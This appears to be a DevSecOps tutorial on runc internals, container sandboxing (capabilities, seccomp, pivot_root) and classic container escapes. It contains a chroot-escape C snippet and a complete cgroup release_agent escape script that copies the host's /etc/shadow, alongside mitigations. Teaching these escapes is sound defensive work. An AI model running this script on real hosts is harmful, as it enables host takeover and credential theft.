




# Rabbit Hole 02: Container Runtime Internals, Syscalls & Escapes

When you type `docker run`, Docker does not create a container directly. It hands an **OCI Bundle** to a minimalist binary written in Go called **`runc`**.

`runc` is the real engine of the containerized world. Understanding how `runc` uses Linux kernel syscalls to construct the container sandbox—and how misconfigurations permit attackers to execute **container escapes**—is essential for DevSecOps mastery.

---

## 1. The Anatomy of an OCI Bundle

`runc` knows nothing about Dockerfiles, networks, or image registries. It expects a single directory on disk containing two things:

```text
my-container-bundle/
├── config.json   <-- JSON specification of namespaces, cgroups, capabilities
└── rootfs/       <-- Raw unpacked directory of files (/bin, /etc, /usr, /app)
```

```bash
# You can generate this manually without Docker!
runc spec
# Spawns a template config.json
runc run my-container-id
```

---

## 2. The Exact Syscall Execution Sequence of `runc`

When `runc` spawns a container, it executes a strict sequence of C system calls inside the Linux kernel:



### 2.1 The Critical Difference: `pivot_root` vs. `chroot`
Why does modern container runtimes mandate `pivot_root` instead of the classic Linux `chroot`?

> [!WARNING]
> **Why `chroot` is Insecure**:
> In a traditional `chroot` jail, a root user can easily escape. If the process has access to a file descriptor outside the chroot, it can execute:
> ```c
> int fd = open("..", O_DIRECTORY);
> chroot("subdir");
> fchdir(fd); // Moves working directory outside the chroot jail!
> chroot("."); // Makes the true host filesystem the new root!
> ```
> **How `pivot_root` Fixes This**:
> `pivot_root` swaps the entire Virtual Filesystem (VFS) mount table. It moves the host root mount point to an ephemeral directory, mounts the container `rootfs` as the permanent `/`, and immediately invokes `umount2()` on the old root. There are **no remaining file descriptors or parent mount pointers** connecting back to the host filesystem.

---

## 3. Defense Layer 1: Dropping Linux Capabilities

In traditional Unix, permissions were binary: you were either regular unprivileged user (`UID > 0`) or the all-powerful `root` (`UID 0`).

Linux broke root's god-mode into **~40 distinct capabilities** (defined in `<linux/capability.h>`).



If an attacker achieves remote code execution as `root` inside an unhardened container, but `CAP_SYS_ADMIN` and `CAP_SYS_MODULE` are dropped, **they cannot load malicious kernel modules or mount host disks**.

---

## 4. Defense Layer 2: Seccomp (SECure COMPuting with BPF)

Linux provides **~450 system calls** (`read`, `write`, `open`, `fork`, `reboot`, `swapon`, `kexec_load`).

A web application only needs about 50 of them. Why should a Python Flask container ever be allowed to call `reboot()` or `swapon()`?



- Docker's default seccomp profile applies a **Berkeley Packet Filter (BPF)** program to the container's process tree.
- It blocks approximately **44 dangerous syscalls**, including:
  - `reboot`: Prevents container from rebooting the physical host server.
  - `kexec_load`: Prevents loading a new Linux kernel.
  - `ptrace`: Prevents attaching debuggers to other processes on the host.
  - `sys_chroot`: Prevents altering filesystem root jails.

---

## 5. Container Breakout Exploits: The 3 Classic Attacks

During security reviews and Senior DevOps interviews, you will be evaluated on your understanding of **Container Escapes**.

### Attack 1: The Docker Socket Mount Anti-Pattern
In CI/CD environments, developers often mount `/var/run/docker.sock` into a Jenkins runner container so the runner can execute `docker build`.

```bash
# THE CRITICAL VULNERABILITY:
docker run -it -v /var/run/docker.sock:/var/run/docker.sock alpine sh
```



> [!CAUTION]
> Mounting `/var/run/docker.sock` into an untrusted container is equivalent to giving the container **passwordless `sudo` access to the host server**. Never use Docker-in-Docker via socket mounting in multi-tenant environments; use unprivileged rootless builders like **Google Kaniko** or **Buildah**.

---

### Attack 2: The `--privileged` Flag & `cgroup release_agent` Escape
When a developer runs `docker run --privileged`, Docker:
1. Disables all Seccomp BPF filters.
2. Disables AppArmor / SELinux profiles.
3. Grants all 40 Linux kernel capabilities (including `CAP_SYS_ADMIN`).
4. Exposes all host devices under `/dev/` to the container.

#### The Exploit Mechanism:
In `cgroups v1`, when all processes in a control group exit, the kernel executes a script configured in the cgroup's `release_agent` file. **The kernel executes this script as host root in the host namespace!**

```bash
# Inside the privileged container:
# 1. Mount host cgroup hierarchy
mkdir /tmp/cgroup && mount -t cgroup -o memory cgroup /tmp/cgroup
mkdir /tmp/cgroup/x

# 2. Enable notify_on_release
echo 1 > /tmp/cgroup/x/notify_on_release

# 3. Write payload script that dumps host /etc/shadow
echo '#!/bin/sh' > /cmd
echo 'cat /etc/shadow > /tmp/stolen_passwords' >> /cmd
chmod +x /cmd

# 4. Point host release_agent to the script on disk
HOST_PATH=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
echo "$HOST_PATH/cmd" > /tmp/cgroup/release_agent

# 5. Trigger release_agent execution by spawning and instantly killing a child process
sh -c "echo \$\$ > /tmp/cgroup/x/cgroup.procs"

# The host kernel executes /cmd on the bare-metal server!
```

---

### Attack 3: CVE-2019-5736 (Overwriting the Host `runc` Binary)
- In early versions of Docker, when an administrator executed `docker exec -it <container> sh`, the host `runc` process temporarily entered the container's namespaces while retaining a file descriptor to its own executable (`/proc/self/exe`).
- A malicious container process could open `/proc/self/exe` in write-only mode (`O_WRONLY`) and **overwrite the host's `/usr/bin/runc` binary with malicious code**.
- The next time the administrator or Docker daemon launched *any* container on the host, the attacker's code executed as host root!
- *Patch*: Modern runc creates an anonymous temporary copy (`memfd_create`) of itself in memory before attaching to containers.
